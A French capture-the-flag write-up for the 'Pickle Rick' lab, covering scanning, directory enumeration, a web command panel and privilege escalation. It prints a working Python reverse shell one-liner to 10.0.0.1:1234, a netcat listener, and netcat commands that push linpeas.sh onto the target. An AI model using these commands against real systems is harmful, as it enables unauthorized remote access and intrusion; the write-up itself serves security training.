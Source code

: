 # Pickle Rick

## I- Scanning

On utilise nmap `nmap -sC -sV <target ip>` ou tu peux faire un nmap agressif `nmap -A <target ip>` ou encore `nmap <target ip> -A -T 4 -v -oN`

On regarde les ports ouvert et en fonction on peut essayer de se connecter aux services disponible (ex: HTTP, SSH, SMB etc…)

* Ici on peut voir un service SSH et un serveur web

On se connecte sur le serveur web qui tourne sur le port 80.

## II- Enumération

Si on navigue sur le site web “http://\<ip-cible>:80”. On vérifie le code source, n’ayant aucune indication précise, on trouve ici un username “R1ckRul3s”.

On utilise **gobuster** lors de cette étape pour découvrir les dossier présent sous la page web:

```jsx
gobuster dir -u http://<ip-cible> -w <wordlist>
```

chemin de wordlists:

* /usr/share/wordlists/dirb/common.txt
* /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
* /usr/share/wordlists/rockyou.txt

On trouve trois nouveaux fichiers: login.php, portal.php et robots.txt

Dans portal.php (200 HTTP Status Code) on a une page de login, nous avons le username mais pas de password.

Portal.php nous redirige vers login.php, nous supposons que nous avons accès à portal.php une fois que nous serons login.

Et pour finir robots.txt nous avons une string: “Wubbalubbadubdub”

Nous allons essayer de nous login avec ces deux informations, cela fonctionne ! Nous avons accès à portal.php.

## III- Exploitation

Sur cette page nous avons une command panel qui agit comme un shell web, quand on essaye d’accéder aux autres pages, nous finissons dans ‘denied.php’. On essaye de lister les fichiers dans le dossier actuel

```jsx
ls -a
```

On obtient un fichier txt intéressant mais on ne peut pas le cat. Voici des alternatives au “cat” si vous n’avez pas les permissions:

* tac
* less
* strings
* grep .
* while read line; do echo $line; done < fichier.txt
* cp fichier.txt /dev/stdout

On obtient notre premier flag !

Notre deuxième fichier .txt nous dis de regarder dans les dossiers

```jsx
ls -al /home/
```

On trouve un dossier “rick”

```jsx
tac /home/rick/second\\ingredients
```

Le \ remplace l’espace sinon la commande sortirait une erreur. Pour le dernier flag, nous avons besoin d’étre en root car actuellement nous ne sommes que www-data

```jsx
whoami
```

## IV- Escalation de privilège

Pour lister tout les dossiers présent dans root:

```jsx
sudo ls -al /root/
```

Notre dernier flag est présent !

```jsx
sudo tac /root/3rd.txt
```

Faisons mtn une vraie escalation de privilège:

Pour ça nous avons besoin d’un reverse shell (nous avons besoin de python3, vérifier qu’il est installé)

```jsx
which python3
```

On peut trouver un reverse shell ici: [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```jsx
Voici celui qui nous intéresse dans ce cas:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

/!\ Ne pas oublier de changer l’IP par l’IP de votre machine attaquante

Maintenant, faisons un netcat:

```jsx
nc -lvnp 1234
```

On retourne sur le ‘portal.php’ et on rentre dans la command panel le script python pour faire le reverse shell. Après avoir excecuté la commande, nous aurons notre reverse shell au niveau de notre netcat.

Avant d’upload nos fichiers dans le server et enumérer nos possibiltés d’escalation de privilèges on va améliorer un peu notre reverse shell:

```jsx
python3 -c ‘import pty; pty.spawn(”/bin/bash”)’
```

On télécharge le script “[linpeas.sh](http://linpeas.sh)” depuis ce lien:

[https://github.com/peass-ng/PEASS-ng/releases/tag/20240414-ed0a5fac](https://github.com/peass-ng/PEASS-ng/releases/tag/20240414-ed0a5fac)

C’est un script qui va chercher toutes les escalations de privilèges possible sur une machine.

```jsx
nc -q 0 -lvnp <port> < linpeas.sh
```

Ici on est parti sur le port 6666

Va sur le reverse shell de tout à l’heure et tape:

```jsx
nc <ip-attaquant><port> > /tmp/lin/linpeas.sh
```

Cette commande va télécharger “[linpeas.sh](http://linpeas.sh)” pour arriver sur la machine cible, nous devons avoir les permissions avant de pouvoir l’exécuter

```jsx
ls -l
```

```jsx
chmod +x linpeas.sh
```

Nous pouvons exécuter le script ./linpeas.sh C’est ici que nous aurons l’information que “www-data” peut exécuter toutes les commandes sudo sans avoir à donné le mot de passe. On peut donc faire ce que l’on a fait au début de l’escalation de privilège.

Source utile pour escalation de privilège:

[https://gtfobins.github.io/](https://gtfobins.github.io/)
